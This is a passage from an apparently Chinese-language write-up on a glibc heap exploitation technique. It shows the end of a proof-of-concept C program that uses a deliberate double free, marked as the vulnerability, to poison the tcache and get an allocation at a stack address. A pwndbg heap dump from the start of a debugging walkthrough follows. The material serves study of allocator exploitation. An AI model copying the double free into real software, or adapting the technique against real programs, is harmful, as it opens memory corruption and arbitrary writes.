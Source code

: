 ```c
    free(prev);
    
    puts("Step 4: add the victim chunk to tcache list by taking one out from it and free victim again\n");
    malloc(0x100);
    /*VULNERABILITY*/
    free(a);// a is already freed
    /*VULNERABILITY*/
    
    // simple tcache poisoning
    puts("Launch tcache poisoning");
    puts("Now the victim is contained in a larger freed chunk, we can do a simple tcache poisoning by using overlapped chunk");
    intptr_t *b = malloc(0x120);
    puts("We simply overwrite victim's fwd pointer");
    b[0x120/8-2] = (long)stack_var;
    
    // take target out
    puts("Now we can cash out the target chunk.");
    malloc(0x100);
    intptr_t *c = malloc(0x100);
    printf("The new chunk is at %p\n", c);
    
    // sanity check
    assert(c==stack_var);
    printf("Got control on target/stack!\n\n");
    
    // note
    puts("Note:");
    puts("And the wonderful thing about this exploitation is that: you can free b, victim again and modify the fwd pointer of victim");
    puts("In that case, once you have done this exploitation, you can have many arbitary writes very easily.");

    return 0;
}
```

## POC分析
首先我们先对代码第37行下断点，开始进行调试：

```c
    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
        x[i] = malloc(0x100);
    }
```

```c
pwndbg> x/350gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache
......
0x555555757250:	0x0000000000000000	0x0000000000000111 #chunk0(malloc)
......
0x555555757360:	0x0000000000000000	0x0000000000000111 #chunk1(malloc)
......
0x555555757470:	0x0000000000000000	0x0000000000000111 #chunk2(malloc)
......
0x555555757580:	0x0000000000000000	0x0000000000000111 #chunk3(malloc)
......
0x555555757690:	0x0000000000000000	0x0000000000000111 #chunk4(malloc)
......
0x5555557577a0:	0x0000000000000000	0x0000000000000111 #chunk5(malloc)
......
```